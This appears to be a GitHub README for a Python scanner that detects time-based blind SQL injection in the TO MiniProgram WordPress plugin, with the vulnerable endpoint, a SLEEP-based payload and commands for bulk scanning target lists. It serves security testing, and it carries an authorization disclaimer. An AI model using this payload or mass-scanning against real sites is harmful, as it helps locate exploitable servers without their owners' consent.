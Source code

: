 # TO MiniProgram SQLi Scanner
([https://imgur.com/a/O2JAO7D])*Replace with actual banner image*

A specialized SQL injection scanner targeting WordPress sites with the TO MiniProgram plugin vulnerable endpoint.

## Features

- 🚀 **High-performance scanning** with multi-threading support
- 🎯 **Accurate detection** of time-based blind SQL injection vulnerabilities
- 📋 **Multiple target support** (single URL or file with URL list)
- 📊 **Clear reporting** with color-coded results
- 💾 **Automatic saving** of vulnerable targets to `vulnerable.txt`

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/HackfutSec/SQLwp.git
   cd SQLwp
   ```

2. Install required dependencies:
   ```bash
   pip3 install -r requirements.txt
   ```

## Usage

### Basic scan (single target)
```bash
python3 scanner.py -u http://target-site.com -d 5
```

### Bulk scan (from file)
```bash
python3 scanner.py -l targets.txt -t 10 -d 5
```

### Options
| Option | Description | Default |
|--------|-------------|---------|
| `-u`, `--url` | Single target URL | - |
| `-l`, `--list` | File containing list of target URLs | - |
| `-d`, `--delay` | Sleep time for time-based detection (in seconds) | 5 |
| `-t`, `--threads` | Number of concurrent threads | 5 |

## Technical Details

### Vulnerability Tested
The scanner checks for SQL injection in the TO MiniProgram WordPress plugin's endpoint:
```
/wp-json/watch-life-net/v1/comment/getcomments
```

### Payload Used
The scanner sends a time-based blind SQL injection payload:
```sql
DESC,(SELECT(1)FROM(SELECT(SLEEP(5)))a)--
```

### Detection Logic
- The scanner measures response time
- If response time exceeds the specified delay, vulnerability is confirmed

## Output Example

![Sample Output](https://i.imgur.com/ABC5678.png) *Replace with actual output screenshot*

## Ethical Use

⚠️ **This tool is for authorized security testing only.**  
⚠️ **Always obtain proper authorization before scanning any website.**  
⚠️ **The maintainers are not responsible for misuse of this tool.**

## Contribution

Contributions are welcome! Please open an issue or pull request for:
- Bug fixes
- Feature enhancements
- Documentation improvements

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contact

- GitHub: [@HackfutSec](https://github.com/HackfutSec)
- For security concerns: *HackfutSec404@proton.com*

---

🔒 **Happy (ethical) hacking!** 🔒
